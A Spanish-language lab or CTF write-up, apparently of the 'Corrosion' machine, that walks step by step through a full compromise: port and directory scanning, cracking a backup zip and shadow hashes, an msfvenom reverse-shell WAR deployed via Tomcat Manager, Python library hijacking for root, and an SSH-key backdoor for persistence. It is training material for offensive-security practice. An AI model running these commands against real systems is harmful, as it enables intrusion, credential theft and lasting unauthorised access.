










## Writeup

### Reconocimiento Inicial

La fase inicial de reconocimiento sobre el host PC5 (Corrosion), cuya IP se determinó como corrosion mediante escaneos previos en la red 10.0.30.0/24, comenzó con un análisis de puertos y servicios utilizando Nmap a través del pivote establecido.

```markdown
proxychains nmap -sV corriosion
```


El escaneo reveló varios puertos abiertos, siendo los más relevantes para la siguiente fase:

*   **Puerto 22/tcp:** Servicio SSH (OpenSSH 8.2p1 Ubuntu).
*   **Puerto 80/tcp:** Servidor HTTP (Apache httpd 2.4.41).
*   **Puerto 8080/tcp:** Servidor HTTP (Apache Tomcat 9.0.53).

La inspección inicial del servicio Apache en el puerto 80 mostró la página por defecto, sin vectores de ataque evidentes. El foco se dirigió entonces al servicio Apache Tomcat en el puerto 8080.



### Enumeración y Descubrimiento de Backup

Se procedió a una enumeración de directorios sobre el servicio Tomcat (puerto 8080) utilizando la herramienta `dirb` (o similar) a través de `proxychains`.

```markdown
proxychains dirb http://corrosion:8080/ -X .php,.zip
```


Esta enumeración condujo al descubrimiento de un archivo de backup accesible públicamente: `http://corrosion:8080/backup.zip`. Se descargó el archivo mediante `wget`. Al intentar descomprimirlo, se encontró que estaba protegido por contraseña.

Para descifrar la contraseña del archivo ZIP, se empleó la herramienta `fcrackzip` junto con el diccionario `rockyou.txt`.

```markdown
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
```


La contraseña obtenida fue `@administrator_hi5`. Con esta contraseña, se pudo descomprimir el archivo.



El contenido del archivo descomprimido incluía varios ficheros de configuración de Tomcat. De particular interés fue el archivo `tomcat-users.xml`.


El análisis de `tomcat-users.xml` reveló las credenciales de acceso para el panel de administración (manager) de Tomcat:

*   **Usuario:** `admin`
*   **Contraseña:** `melehifokivai`

### Explotación Inicial: Tomcat Manager RCE

Con las credenciales administrativas obtenidas, fue posible autenticarse en el panel de administración de Apache Tomcat, accesible generalmente en `/manager/html`.



El acceso al panel de manager permite la carga y despliegue de aplicaciones en formato WAR. Este mecanismo fue utilizado como vector para obtener ejecución remota de código (RCE). Se generó un payload malicioso en formato WAR utilizando `msfvenom`, configurado para establecer una shell inversa hacia la máquina del atacante.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP_ATACANTE] LPORT=[PUERTO_ESCUCHA] -f war -o reverse_tcp.war
```



El archivo `reverse_tcp.war` generado se subió a través de la interfaz del Tomcat Manager.



Simultáneamente, se estableció una escucha en la máquina atacante en el puerto especificado ([PUERTO_ESCUCHA]) utilizando `netcat`.

```bash
nc -nlvp [PUERTO_ESCUCHA]
```

Al desplegar (o acceder a la ruta de) la aplicación WAR cargada, el payload se ejecutó en el servidor, estableciendo una conexión inversa hacia el listener del atacante.


Se obtuvo una shell interactiva con los privilegios del usuario que ejecuta el servicio Tomcat (generalmente `tomcat`).

### Movimiento Lateral y Obtención de Información Adicional

Desde la shell obtenida como usuario `tomcat`, se realizó una exploración inicial del sistema. Se identificaron dos directorios de usuario en `/home`: `jaye` y `randy`.



Se observó que la contraseña `melehifokivai`, utilizada para el manager de Tomcat, también permitía la autenticación como el usuario del sistema `jaye` mediante el comando `su jaye`.

Tras cambiar al usuario `jaye`, se encontró un ejecutable local llamado `look` en su directorio `~/Files`. Basándose en análisis previos o herramientas como GTFOBins, se determinó que este binario permitía la lectura de archivos arbitrarios del sistema. Se utilizó este ejecutable para leer el contenido del archivo `/etc/shadow`, que almacena los hashes de las contraseñas de los usuarios del sistema.

```bash
cd /home/jaye/Files
./look /etc/shadow
```




### Compromiso de Credenciales: Cracking de Hash

El contenido de `/etc/shadow` reveló los hashes de varios usuarios, incluyendo `root` y `randy`. Se procedió a intentar descifrar el hash del usuario `randy` utilizando la herramienta John the Ripper y el diccionario `rockyou.txt`.

```bash
# (Guardar hash de randy en hash.txt)
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



El proceso de cracking tuvo éxito, revelando la contraseña del usuario `randy`: `07051986****`.

### Acceso Adicional: SSH como `randy`

Con la contraseña obtenida, se estableció una conexión SSH al sistema como usuario `randy`, utilizando `proxychains` para enrutar la conexión a través del pivote previamente establecido.

```bash
proxychains ssh randy@corrosion
# Introducir contraseña: 070519****
```



Se obtuvo acceso interactivo al sistema como el usuario `randy`.

### Escalada de Privilegios: Sudo y Python Library Hijacking

Una vez autenticado como `randy`, se verificaron los privilegios asignados mediante `sudo` con el comando `sudo -l`.


La salida indicó que el usuario `randy` podía ejecutar el script `/usr/bin/python3.8 /home/randy/randombase64.py` con privilegios de `root`. El análisis del script `randombase64.py` mostró que importaba el módulo estándar `base64` de Python.

Se verificaron los permisos del archivo de la librería estándar `/usr/lib/python3.8/base64.py`.


Se constató que el archivo de la librería poseía permisos de escritura para `randy` (o era world-writable), lo que habilitaba un ataque de secuestro de librería (Library Hijacking). Se procedió a modificar el archivo `/usr/lib/python3.8/base64.py` añadiendo el siguiente código al inicio, destinado a ejecutar una shell:

```python
import os
os.system("/bin/bash")
```


Finalmente, se ejecutó el comando `sudo` permitido:

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py
```


Al ejecutarse, el intérprete Python cargó la librería `base64.py` modificada. El código inyectado (`os.system("/bin/bash")`) se ejecutó con los privilegios de `root` heredados de `sudo`, proporcionando una shell interactiva como usuario `root`.

### Post-Explotación: Establecimiento de Persistencia

Para asegurar el acceso futuro al sistema como `root`, se configuró una puerta trasera mediante claves SSH. Se copió la *clave pública del host* (`/etc/ssh/ssh_host_rsa_key.pub`) existente en el sistema al archivo de claves autorizadas del usuario `root` (`/root/.ssh/authorized_keys`). Es fundamental asegurarse de que el atacante también posea la *clave privada* correspondiente (`/etc/ssh/ssh_host_rsa_key`) para poder autenticarse.



Se establecieron los permisos adecuados para el archivo de claves autorizadas y el directorio `.ssh`.

```bash
cat /etc/ssh/ssh_host_rsa_key.pub > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
# (Asegurarse de que chmod 700 /root/.ssh si el directorio no existía)
```


Tras configurar la clave, se recargó la configuración del servicio SSH (`systemctl reload sshd` o `service ssh reload`). Esto permitió establecer una conexión SSH directa como `root` utilizando la clave privada del host copiada previamente por el atacante (asumiendo que se copió).

```bash
# En la máquina atacante, con la clave privada guardada como 'clave_corrosion_host'
proxychains ssh -i clave_corrosion_host root@corrosion
```


La conexión fue exitosa, confirmando el establecimiento de persistencia administrativa en PC5.

---